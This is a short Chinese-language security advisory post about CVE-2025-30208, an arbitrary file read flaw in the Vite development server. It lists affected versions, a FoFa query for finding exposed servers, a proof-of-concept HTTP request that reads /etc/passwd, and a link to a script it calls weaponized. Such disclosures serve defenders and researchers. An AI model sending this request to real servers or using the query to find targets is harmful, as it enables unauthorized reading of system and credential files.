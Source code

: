 #  Vite 任意文件读取漏洞（CVE-2025-30208）   
 HK安全小屋   2025-04-21 16:17  
  
## 免责声明  
  
       请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
漏洞描述：  
  
CVE-2025-30208 是 Vite（一个前端开发工具提供商）在特定版本中存在的安全漏洞。此漏洞允许攻击者通过特殊的 URL 参数绕过对文件系统的访问限制，从而获取任意文件内容（包括非 Vite 服务目录范围外的文件）。  
  
影响版本：  
  
6.2.0 <= vite < 6.2.3  
6.1.0 <= vite < 6.1.2  
6.0.0 <= vite < 6.0.12  
5.0.0 <= vite < 5.4.15  
vite < 4.5.10  
  
FoFa:  
```
body="/@vite/client"
```  
  
POC：  
```
GET /etc/passwd?raw HTTP/1.1
Host: 
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/A8qcyicQXeI35K9IeWW1TOD5iaxh9VibtuPv1TIUiaZAHiaRfBVQsBTXuZibmqwQicX9Jbgt3PVQqyqk3zMvHbROctW8w/640?wx_fmt=png&from=appmsg "")  
  
Github 上武器化的脚本：https://github.com/ThumpBo/CVE-2025-30208-EXP/blob/main/Vite-CVE-2025-30208-EXP.py  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
